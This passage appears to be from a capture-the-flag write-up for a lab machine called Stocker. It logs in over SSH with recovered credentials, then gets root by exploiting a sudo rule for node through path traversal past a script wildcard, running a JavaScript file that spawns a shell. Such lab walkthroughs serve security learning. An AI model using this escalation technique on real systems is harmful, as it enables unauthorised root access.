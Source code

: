 Got credentials - `dev:**************************`.

Getting the user flag:
```
$ ssh angoose@stocker.htb
**************************
angoose@stocker:~$ cat user.txt 
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation

Checking what access as available as `sudo`.
```
$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```
Following javascript will give shell:
```
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});
```

Creating a new script file with javascript for launch shell and opening it using the sudo and node.
```
$ sudo /usr/bin/node /usr/local/scripts/node_modules/../../../../home/angoose/test.js 
# id
uid=0(root) gid=0(root) groups=0(root)
```

Getting the root flag:
```
# cat /root/root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
